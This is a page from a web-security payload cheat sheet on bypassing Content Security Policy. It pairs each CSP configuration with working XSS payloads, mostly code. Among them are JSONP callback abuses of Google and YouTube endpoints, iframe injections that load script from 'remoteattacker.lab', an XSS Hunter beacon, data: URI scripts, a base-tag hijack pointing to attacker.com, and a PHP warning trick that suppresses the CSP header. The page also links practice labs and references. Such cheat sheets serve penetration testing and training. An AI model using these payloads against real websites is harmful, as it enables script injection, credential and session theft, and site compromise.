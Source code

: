 # CSP Bypass

> A Content Security Policy (CSP) is a security feature that helps prevent cross-site scripting (XSS), data injection attacks, and other code-injection vulnerabilities in web applications. It works by specifying which sources of content (like scripts, styles, images, etc.) are allowed to load and execute on a webpage.


## Summary

- [CSP Detection](#csp-detection)
- [Bypass CSP using JSONP](#bypass-csp-using-jsonp)
- [Bypass CSP default-src](#bypass-csp-default-src)
- [Bypass CSP inline eval](#bypass-csp-inline-eval)
- [Bypass CSP unsafe-inline](#bypass-csp-unsafe-inline)
- [Bypass CSP script-src self](#bypass-csp-script-src-self)
- [Bypass CSP script-src data](#bypass-csp-script-src-data)
- [Bypass CSP nonce](#bypass-csp-nonce)
- [Bypass CSP header sent by PHP](#bypass-csp-header-sent-by-php)
- [Labs](#labs)
- [References](#references)


## CSP Detection

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)


## Bypass CSP using JSONP

**Requirements**:

* CSP: `script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';`

**Payload**:

Use a callback function from a whitelisted source listed in the CSP.

* Google Search: `//google.com/complete/search?client=chrome&jsonp=alert(1);`
* Google Account: `https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)`
* Google Translate: `https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert();`
* Youtube: `https://www.youtube.com/oembed?callback=alert;`
* [Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
* [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```


## Bypass CSP default-src

**Requirements**:

* CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, 

**Payload**:

`http://example.lab/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//remoteattacker.lab/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;`

```js
script=document.createElement('script');
script.src='//remoteattacker.lab/csp.js';
window.frames[0].document.head.appendChild(script);
```

Source: [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)


## Bypass CSP inline eval 

**Requirements**:

* CSP `inline` or `eval`


**Payload**:

```js
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

Source: [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)


## Bypass CSP script-src self 

**Requirements**:

* CSP like `script-src self`

**Payload**:

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

Source: [@akita_zen](https://twitter.com/akita_zen)


## Bypass CSP script-src data

**Requirements**:

* CSP like `script-src 'self' data:` as warned about in the official [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src).


**Payload**:

```javascript
<script src="data:,alert(1)">/</script>
```

Source: [@404death](https://twitter.com/404death/status/1191222237782659072)


## Bypass CSP unsafe-inline

**Requirements**:

* CSP: `script-src https://google.com 'unsafe-inline';`

**Payload**:

```javascript
"/><script>alert(1);</script>
```


## Bypass CSP nonce

**Requirements**:

* CSP like `script-src 'nonce-RANDOM_NONCE'`
* Imported JS file with a relative link: `<script src='/PATH.js'></script>`


**Payload**:

1. Inject a base tag.
  ```html
  <base href=http://www.attacker.com>
  ```
2. Host your custom js file at the same path that one of the website's script.
  ```
  http://www.attacker.com/PATH.js
  ```


## Bypass CSP header sent by PHP

**Requirements**:

* CSP sent by PHP `header()` function 


**Payload**:

In default `php:apache` image configuration, PHP cannot modify headers when the response's data has already been written. This event occurs when a warning is raised by PHP engine.

Here are several ways to generate a warning:

- 1000 $_GET parameters
- 1000 $_POST parameters
- 20 $_FILES

If the **Warning** are configured to be displayed you should get these:

* **Warning**: `PHP Request Startup: Input variables exceeded 1000. To increase the limit change max_input_vars in php.ini. in Unknown on line 0`
* **Warning**: `Cannot modify header information - headers already sent in /var/www/html/index.php on line 2`


```ps1
GET /?xss=<script>alert(1)</script>&a&a&a&a&a&a&a&a...[REPEATED &a 1000 times]&a&a&a&a
```

Source: [@pilvar222](https://twitter.com/pilvar222/status/1784618120902005070)


## Labs

* [Root Me - CSP Bypass - Inline Code](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
* [Root Me - CSP Bypass - Nonce](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)
* [Root Me - CSP Bypass - Nonce 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce-2)
* [Root Me - CSP Bypass - Dangling Markup](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
* [Root Me - CSP Bypass - Dangling Markup 2](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)
* [Root Me - CSP Bypass - JSONP](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)


## References

- [Airbnb – When Bypassing JSON Encoding, XSS Filter, WAF, CSP, and Auditor turns into Eight Vulnerabilities - Brett Buerhaus (@bbuerhaus) - March 8, 2017](https://buer.haus/2017/03/08/airbnb-when-bypassing-json-encoding-xss-filter-waf-csp-and-auditor-turns-into-eight-vulnerabilities/)
- [D1T1 - So We Broke All CSPs - Michele Spagnuolo and Lukas Weichselbaum - 27 Jun 2017](http://web.archive.org/web/20170627043828/https://conference.hitb.org/hitbsecconf2017ams/materials/D1T1%20-%20Michele%20Spagnuolo%20and%20Lukas%20Wilschelbaum%20-%20So%20We%20Broke%20All%20CSPS.pdf)
- [Making an XSS triggered by CSP bypass on Twitter - wiki.ioin.in(查看原文) - 2020-04-06](https://www.buaq.net/go-25883.html)